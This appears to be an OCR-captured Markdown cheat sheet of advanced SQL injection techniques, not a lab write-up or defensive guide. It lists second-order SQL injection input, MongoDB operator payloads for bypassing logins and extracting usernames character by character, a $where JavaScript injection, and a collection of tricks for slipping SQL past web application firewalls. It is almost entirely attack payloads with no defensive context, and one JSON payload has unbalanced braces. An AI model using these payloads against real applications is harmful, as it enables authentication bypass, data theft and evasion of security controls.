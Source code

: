 ## Advanced SQL Injection Techniques

### 1. Second-Order SQL Injection
```sql
# Payload stored in first request
Username: admin'--
Password: anything

# Executed in second request when data is retrieved
# Example: Profile page showing "Welcome admin'--"
# If used in query: SELECT * FROM logs WHERE username='admin'--'
```

### 2. NoSQL Injection (MongoDB)
```javascript
// Authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}

// Data extraction
{"username": {"$regex": "^a.*"}, "password": {"$ne": null}}
{"username": {"$regex": "^ad.*"}, "password": {"$ne": null}}

// JavaScript injection
{"username": "admin", "password": {"$where": "this.password.match(/^a.*/)"}
```

### 3. WAF Bypass Techniques
```sql
# Comment variations
/*comment*/
/*!comment*/
#comment
--comment

# Case variations
SeLeCt
UNION
union

# Encoding
%20 (space)
%27 (')
%22 (")
%2B (+)

# Whitespace alternatives
SELECT/**/username/**/FROM/**/users
SELECT+username+FROM+users
SELECT	username	FROM	users

# Alternative operators
' OR 1=1--
' || 1=1--
' OR 'a'='a'--

# Function alternatives
SUBSTRING() vs MID() vs LEFT()
CONCAT() vs ||
ASCII() vs ORD()
```
